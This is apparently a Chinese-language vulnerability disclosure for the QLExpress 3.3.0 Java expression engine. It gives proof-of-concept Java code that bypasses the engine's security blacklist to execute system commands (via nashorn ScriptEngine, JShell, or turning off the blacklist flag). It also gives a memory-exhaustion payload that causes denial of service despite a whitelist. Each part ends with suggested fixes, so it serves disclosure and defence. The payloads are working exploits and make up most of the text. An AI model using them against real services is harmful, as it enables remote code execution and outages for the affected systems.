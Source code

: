 # QLExpress-3.3.0-vuln-poc

## 针对1级防御

### RCE

#### POC

针对黑名单的绕过，我总结了下三种无外部依赖的绕过姿势，以下是poc

```java
package vuln;

import com.ql.util.express.DefaultContext;
import com.ql.util.express.ExpressRunner;
import com.ql.util.express.config.QLExpressRunStrategy;

/**
 * 黑名单绕过
 */
public class Test1 {
    public static void main(String[] args) throws Exception {
        // 开启黑名单
        QLExpressRunStrategy.setForbidInvokeSecurityRiskMethods(true);
        ExpressRunner runner = new ExpressRunner();
        DefaultContext<String, Object> context = new DefaultContext<String, Object>();

//        使用ScriptEngineManager绕过黑名单
//        String payload1_1 = "new javax.script.ScriptEngineManager().getEngineByName(\"nashorn\").eval(\"s=[2];s[0]='open';s[1]='/System/Applications/Calculator.app';java.lang.Runtime.getRuntime().exec(s);\");";
//        String payload1_2 = "new javax.script.ScriptEngineManager().getEngineByName(\"javascript\").eval(\"s=[2];s[0]='open';s[1]='/System/Applications/Calculator.app';java.lang.Runtime.getRuntime().exec(s);\")";


//        Jdk>9时采用jShell绕过
//        String payload2 = "jdk.jshell.JShell.create().eval('java.lang.Runtime.getRuntime().exec(\"open -a calculator.app\")')";

//        利用QLExpressRunStrategy关闭黑名单
        String code = "import com.ql.util.express.config.QLExpressRunStrategy;QLExpressRunStrategy.setForbidInvokeSecurityRiskMethods(false);Runtime.getRuntime().exec(\"open -a calculator.app\");";
        runner.execute(code, new DefaultContext<>(), null, false, true);
    }
}

```

![在这里插入图片描述](https://img-blog.csdnimg.cn/8248fac22d1e46b0a0161885224fece9.png)

#### 修复建议

- 建议加强原本的黑名单

- ```java
  SECURITY_RISK_METHOD_LIST.add(QLExpressRunStrategy.class.getName()+".setForbidInvokeSecurityRiskMethods");
  SECURITY_RISK_METHOD_LIST.add("jdk.jshell.JShell.create");
  SECURITY_RISK_METHOD_LIST.add("javax.script.ScriptEngineManager.getEngineByName");
  SECURITY_RISK_METHOD_LIST.add("org.springframework.jndi.JndiLocatorDelegate.lookup");
  ```

  

---

## 针对2级防御

### DoS

#### POC

在阅读防御措施相关代码后，我发现黑白名单的本质防御其实是对方法(`Method`)的禁用。当用户指定可执行方法的白名单时，确实能有效防御许多代码执行的方法。

但存在下面这种情况，可以造成OutOfMemoryError，导致堆内存泄漏，进而其他应用无法使用堆内存，从而导致DOS，也就是服务不可用(拒绝服务)。

以下是POC

```java
public class Test2 {
    public static void main(String[] args) throws Exception {
      	// 开启白名单，并指定使用特定安全方法
        QLExpressRunStrategy.setForbidInvokeSecurityRiskMethods(true);
        QLExpressRunStrategy.addSecureMethod(RiskBean.class, "secureMethod");
        ExpressRunner runner = new ExpressRunner();
        DefaultContext<String, Object> context = new DefaultContext<String, Object>();
        String code = "byte[] bytes = new byte[2147483645];for (i=0;i<2147483645;i++) {new String(bytes);}";
        runner.execute(code, new DefaultContext<>(), null, false, true);
    }
}

```

![在这里插入图片描述](https://img-blog.csdnimg.cn/ea53466810b0416b9c994965c8a48d80.png)

#### 修复建议

- 当攻击者使用脚本多次像服务中发送恶意POC时，会导致DoS。这种攻击绕开了黑白名单的方法执行，而是直接申请堆内存空间。
- 对此防御措施应该为当解释代码并执行时遇到OutOfMemoryError错误时应当捕获这个Throwable，并关闭掉runner的excute功能，防止服务中其他服务不可用(造成更大的危害)。

